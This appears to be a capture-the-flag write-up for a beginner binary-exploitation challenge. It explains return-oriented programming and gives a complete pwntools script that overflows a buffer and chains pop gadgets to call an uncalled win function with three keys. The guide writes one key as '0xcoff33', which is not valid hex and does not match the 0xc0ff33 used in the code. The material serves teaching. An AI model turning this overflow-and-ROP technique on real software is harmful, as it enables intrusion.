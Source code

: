 # Challenge Name
baby_ROP

## Learning Objective
Learn Return Oriented Programming (ROP).

## Description 
Let's find out the secrets to pwn...But I need 3 keys ;-;

## Difficulty:
easy

## Guide
Looking at the code, we have to use ret2win again for the uncalled `treasureChest` function. However, we have to fulfil the function arguments in order to call it.
`secretKey` function is also a red herring.
1. key1 = 0x13371337
2. key2 = 0xdeadbeef
3. key3 = 0xcoff33

We will instead do something called **Return Oriented Programming (ROP)**. ROP essentially uses the existing instructions/pieces of code in the program to help us craft our own payload. These pieces of code are also known as **gadgets**.

In x64, when function arguments are called, they are always placed in the registers first in the following order:
1. `rdi`
2. `rsi`
3. `rdx`
etc.

In this case, we need to use **3** arguments, so we need to use `rdi`, `rsi` & `rdx` registers.

What we need to find:
1. Offset required to BOF
2. Return address of `treasureChest` function
3. Gadgets required for the function arguments

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `jaaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address is.

```shell
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

#### To find `treasureChest` function address:
```sh
$> objdump -d kid_ROP_bin | grep treasureChest
0000000000400727 <treasureChest>:
...
```

#### To find gadgets
For `rdi` register:
```sh
$> ROPgadget --binary kid_ROP_bin | grep "pop rdi"
0x00000000004008c3 : pop rdi ; ret
```

For `rsi` register:
```sh
$> ROPgadget --binary kid_ROP_bin | grep "pop rsi"
0x00000000004008c1 : pop rsi ; pop r15 ; ret
```

For `rdx` register:
```sh
$> ROPgadget --binary kid_ROP_bin | grep ": pop rdx"
0x00000000004007f7 : pop rdx ; ret
```

We can see that the `rsi` gadget has `pop r15` as well. We do not need this for the exploit but we have to fill it up with a redundant value so that it does not affect our ROP chain.

#### Assembling our exploit
Before we return to the `treasureChest` function, we want to prepare the registers first so that the function will take argument values from the registers accordingly. Our payload will then look something like this:

1. padding
2. pop rdi address + key1 (0x13371337)
3. pop rsi address + key2 (0xdeadbeef) + redundent value (0)
4. pop rdx address + key3 (0xcoff33)
5. return address of `treasureChest` fcuntioon

#### Final solution
```py
from pwn import *

# setup process
p = process("./kid_ROP_bin")
context.binary = "./kid_ROP_bin"

# ROP gadgets
pop_rdi = 0x4008c3 # pop rdi
pop_rsi = 0x4008c1 # pop rsi, pop r15
pop_rdx = 0x4007f7 # pop rdx 

# address of treasureChest 
win = 0x400727

# offer
payload = b'A' * 72

# ---------------------- ROP chain ---------------------------
# pop rdi + key1
# pop rsi + key2 + 0 (no need for r15)
# pop rdx
# address of treasureChest
payload += p64(pop_rdi) + p64(0x13371337)
payload += p64(pop_rsi) + p64(0xdeadbeef) + p64(0)
payload += p64(pop_rdx) + p64(0xc0ff33)
payload += p64(win)

# send and receive output
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. x64 function calling convention
2. How many arguements do you need? Which registers do you need?
3. Consider the order of your ROP chain. (What must go in first?)

## Attached Files
kid_ROP.c
kid_ROP_bin

## Resources
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- https://ctf101.org/binary-exploitation/return-oriented-programming/
- https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing


## Flag
TBD